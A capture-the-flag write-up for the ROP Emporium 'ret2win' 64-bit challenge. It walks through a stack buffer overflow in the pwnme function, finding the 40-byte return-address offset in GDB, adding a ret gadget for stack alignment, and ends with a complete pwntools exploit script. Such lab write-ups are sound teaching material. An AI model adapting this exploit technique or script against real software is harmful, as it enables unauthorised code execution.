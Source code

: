 # Ret2win
For this challenge (and the other ROP Emporium challenges), we will look at the 64 bit binaries.

Using checksec, we find the following defenses in place:
```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```
NX is enabled, but most notably we can see that there is no PIE, so the binary is always loaded at 0x400000.


## Contents
The challenge contains the following pwnme function (disassembled with Ghidra):
```
void pwnme(void) {
  undefined1 local_28 [32];
  
  memset(local_28,0,0x20);
  puts(
      "For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffe r!"
      );
  puts("What could possibly go wrong?");
  puts(
      "You there, may I have your input please? And don\'t worry about null bytes, we\'re using read ()!\n"
      );
  printf("> ");
  read(0,local_28,0x38);
  puts("Thank you!");
  return;
}
```
As the name of the challenge suggests, there is also a win function where we have to redirect execution to:
```
void ret2win(void) {
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```
The attack vector is thus clear: we have to overflow the return pointer on the stack to redirect execution to ret2win.

## Attack
First, we have to figure out the offset of the return pointer on the stack. To do this, we can use GDB with Pwndebug. We can use this to set a breakpoint inside the pwnme function after local variables have been defined and inspect the stack. Setting a breakpoint at the first puts in pwnme at 0x0040070b reveals the following stack:
```
─────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────
00:0000│ rax rsp 0x7ffd0bfc4220 ◂— 0
... ↓            3 skipped
04:0020│ rbp     0x7ffd0bfc4240 —▸ 0x7ffd0bfc4250 ◂— 1
05:0028│+008     0x7ffd0bfc4248 —▸ 0x4006d7 (main+64) ◂— mov edi, 0x400828
06:0030│+010     0x7ffd0bfc4250 ◂— 1
07:0038│+018     0x7ffd0bfc4258 —▸ 0x7ff1791c6ca8 (__libc_start_call_main+120) ◂— mov edi, eax
```
This shows that the return address pointing back to the main function is at offset 0x28 on the stack. We thus need an offset of 40 in decimal to overwrite the return address. This gives us a payload as follows:
```
ret2win = p64(0x400756)
payload = b"A"*40
payload += ret2win
```
What is interesting now, is that we do see the message "Well done! Here's your flag:", but we do not see the flag itself printed out. We thus succesfully returned to ret2win, but some calls are broken, supposedly due to stack alignment issues. We can fix this by adding a return gadget, which we can find using ropper:
```
ropper --file ret2win
...
0x000000000040053e: ret; 
```
The payload now becomes:
```
ret2win = p64(0x400756)
ret_gadget= p64(0x40053e)
payload = b"A"*40
payload += ret_gadget
payload += ret2win
```
This now works and prints out the flag!

The full script can be found below. This script uses the
[pwn template](
https://radboudinstituteof.pwning.nl/posts/how2pwn/) from the Radboud CTF team.

```
#!/usr/bin/env python3

from pwn import *
import subprocess


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


"""
notes:

"""

gdbscript = ""

breakpoints = [
]

for s in breakpoints:
    gdbscript += s + "\n"


exe = "./ret2win"
elf = context.binary = ELF(exe, checksec=False)
# context.log_level = 'info' # use DEBUG in args for debugging. LOG_LEVEL=warn/info/error for anything else

"""
if args.REMOTE:
    libc = ELF('./libc.so.6', checksec=False)
else:
    libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
"""

# ===========================================================
#                    EXPLOIT STARTS HERE
# ===========================================================

io = start()

ret2win = p64(0x400756)
ret_gadget= p64(0x40053e)
payload = b"A"*40
payload += ret_gadget
payload += ret2win

io.sendlineafter(b">", payload)

io.interactive()
```
